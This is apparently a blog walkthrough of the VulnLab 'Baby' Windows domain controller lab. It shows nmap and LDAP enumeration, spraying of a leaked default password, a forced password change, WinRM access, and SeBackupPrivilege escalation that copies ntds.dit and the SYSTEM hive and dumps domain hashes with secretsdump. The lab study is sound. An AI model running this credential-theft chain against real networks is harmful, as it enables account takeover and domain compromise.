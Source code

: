 ```yaml
---
layout: post
title: VulnLab - Baby
date: 15-04-2025
categories: [Machines]
tags: [ldap, anonymous, SeBackupPrivilege, smbpasswd]
image: "https://images-ext-1.discordapp.net/external/iTsNgpEcu1U88J1FvpyBi4VwhZZRBo0W6Rd5ARdznbE/https/assets.vulnlab.com/baby_slide.png?format=webp&quality=lossless"
---
```


![image](https://www.notion.so/image/attachment%3Aa03294c9-05f1-41a8-8020-c8038e84c4f4%3Aimage?table=block&id=1d43d2c4-89f6-80eb-bd47-d915caa3f7e7&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)


## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```

![image](https://www.notion.so/image/attachment%3Aa03294c9-05f1-41a8-8020-c8038e84c4f4%3Aimage?table=block&id=1d43d2c4-89f6-80eb-bd47-d915caa3f7e7&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```

![image](https://www.notion.so/image/attachment%3A018b74bd-511a-4fd8-8ec7-4f1f4d8095e8%3Aimage?table=block&id=1d43d2c4-89f6-8001-bec2-db7e456dd308&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```

![image](https://www.notion.so/image/attachment%3A8128a076-a6bb-4f80-9bb2-dc3ad0369069%3Aimage?table=block&id=1d43d2c4-89f6-80df-96ae-c13d0b80c19d&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```

![image](https://www.notion.so/image/attachment%3A05b5e0ca-390a-4177-93b8-e35d16df897c%3Aimage.png?table=block&id=1d43d2c4-89f6-809b-8d18-d1db8585fea6&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

![image](https://www.notion.so/image/attachment%3Adb4dad91-4b41-4c20-9be5-ddcb4e2aac1d%3Aimage.png?table=block&id=1d43d2c4-89f6-800f-ac4c-f8e2119ddd37&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```

![image](https://www.notion.so/image/attachment%3A25f57ada-baf4-4c58-971b-ceec561bab1b%3Aimage.png?table=block&id=1d43d2c4-89f6-80b1-b9c3-e39f183bc325&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```

![image](https://www.notion.so/image/attachment%3Aabb5435f-cbb9-4545-9e89-de1e97c36b6b%3Aimage.png?table=block&id=1d43d2c4-89f6-805b-afa4-ee34d032ccef&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

First Degree Group Membership

![image](https://www.notion.so/image/attachment%3Ad0bf5e4e-f85b-4572-bf11-ea02f49caf53%3Aimage.png?table=block&id=1d43d2c4-89f6-806b-be52-c7f751f68f00&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A6d9b5578-ff7b-4256-bc6e-5cba314f6c2a%3Aimage.png?table=block&id=1d43d2c4-89f6-8083-b950-da80549d037e&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A285aca5c-0905-44ce-a5f5-41b3c7d8c40a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b4-8c0f-e784b08e0999&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## PrivEsc

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
diskshadow /s vss.dsh
```

![image](https://www.notion.so/image/attachment%3A9bae947d-2427-40a8-9a2d-257f5a30472c%3Aimage.png?table=block&id=1d43d2c4-89f6-8004-a822-cee10cea7040&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

![image](https://www.notion.so/image/attachment%3A9bae947d-2427-40a8-9a2d-257f5a30472c%3Aimage.png?table=block&id=1d43d2c4-89f6-8004-a822-cee10cea7040&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

also

```bash
reg.exe save hklm\system system
```

download

![image](https://www.notion.so/image/attachment%3A8cc23693-5ecd-4051-83ed-689ac6d3bbb1%3Aimage.png?table=block&id=1d43d2c4-89f6-8046-a959-d847c4459f2f&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

![image](https://www.notion.so/image/attachment%3Ae5d49be1-1fef-495e-9b82-7569e4ed18e7%3Aimage.png?table=block&id=1d43d2c4-89f6-80f4-842a-d3321ab6e8a8&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)